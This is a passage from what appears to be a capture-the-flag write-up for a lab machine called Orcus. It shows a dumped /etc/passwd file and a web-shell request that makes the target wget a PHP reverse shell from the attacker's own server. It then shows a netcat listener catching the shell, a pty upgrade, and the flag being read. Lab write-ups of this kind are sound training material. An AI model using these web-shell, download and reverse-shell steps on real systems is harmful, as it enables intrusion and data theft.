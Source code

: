 www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
syslog:x:101:104::/home/syslog:/bin/false
mysql:x:102:106:MySQL Server,,,:/nonexistent:/bin/false
messagebus:x:103:107::/var/run/dbus:/bin/false
bind:x:104:114::/var/cache/bind:/bin/false
postfix:x:105:115::/var/spool/postfix:/bin/false
dovecot:x:106:117:Dovecot mail server,,,:/usr/lib/dovecot:/bin/false
dovenull:x:107:118:Dovecot login user,,,:/nonexistent:/bin/false
landscape:x:108:119::/var/lib/landscape:/bin/false
sshd:x:109:65534::/var/run/sshd:/usr/sbin/nologin
postgres:x:110:120:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
avahi:x:111:121:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
colord:x:112:123:colord colour management daemon,,,:/var/lib/colord:/bin/false
kippo:x:1001:27::/home/kippo:/bin/bash
statd:x:113:65534::/var/lib/nfs:/bin/false
systemd-timesync:x:114:125:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:115:126:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:116:127:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:117:128:systemd Bus Proxy,,,:/run/systemd:/bin/false
uuidd:x:100:101::/run/uuidd:/bin/false
lxd:x:118:65534::/var/lib/lxd/:/bin/false
_apt:x:119:65534::/nonexistent:/bin/false
dnsmasq:x:120:65534:dnsmasq,,,:/var/lib/misc:/bin/false
* Curl_http_done: called premature == 0
* Connection #0 to host 10.37.129.9 left intact
{% endhighlight %}

Now to get a better shell:

{% highlight bash %}
screen python -m SimpleHTTPServer
curl -v http://10.37.129.9/zenphoto/uploaded/shell.php?cmd=wget%20http://10.37.129.5:8000/php_reverse_webshell.php
sudo nc sudo nc -vnlp 443
Connection from 10.37.129.9 44708 received!
Linux Orcus 4.4.0-45-generic #66-Ubuntu SMP Wed Oct 19 14:12:05 UTC 2016 i686 i686 i686 GNU/Linux
 00:44:17 up  2:22,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ export TERM=xterm
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@Orcus:/var/www$
cd /
locate flag.txt
cat /var/www/flag.txt
868c889965b7ada547fae81f922e45c4
{% endhighlight %}
